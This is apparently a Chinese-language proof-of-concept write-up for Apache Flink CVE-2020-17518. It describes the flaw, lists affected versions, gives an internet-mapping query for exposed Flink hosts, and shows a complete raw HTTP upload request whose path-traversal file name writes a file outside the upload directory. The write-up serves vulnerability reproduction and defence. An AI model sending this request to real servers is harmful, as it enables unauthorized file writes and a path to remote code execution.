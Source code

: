 # Apache Flink 小于 1.9.1 远程代码执行 CVE-2020-17518

## 漏洞描述

Apache Flink 是一个开源流处理框架，具有强大的流处理和批处理能力。

Apache Flink 1.5.1 引入了一个 REST 处理程序，可以通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统上的任意位置。

Apache Flink 的任意 Jar 包上传可以导致远程代码执行。

参考：

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## 漏洞影响

```
Apache Flink  <= 1.9.1(最新版本)
```

## 网络测绘

```
app="Apache-Flink" && country="CN"
```

## 环境搭建

Vulhub 执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问 `http://your-ip:8081` 查看主页。

## 漏洞复现

### 上传文件

使用以下请求将文件上传到 `/tmp/awesome_poc`：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/awesome_poc"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![image-20220223163924462](images/202202231639569.png)

查看 docker，`/tmp/awesome_poc` 成功创建。

![image-20220223164054096](images/202202231640168.png)
